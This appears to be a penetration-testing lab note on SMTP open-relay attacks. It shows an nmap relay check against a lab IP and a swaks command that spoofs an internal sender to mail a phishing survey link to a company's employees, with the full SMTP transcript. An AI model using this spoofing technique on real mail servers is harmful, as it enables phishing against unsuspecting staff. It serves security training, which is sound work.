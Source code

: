 ### Protocol Specifics Attacks

#### Open Relay

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
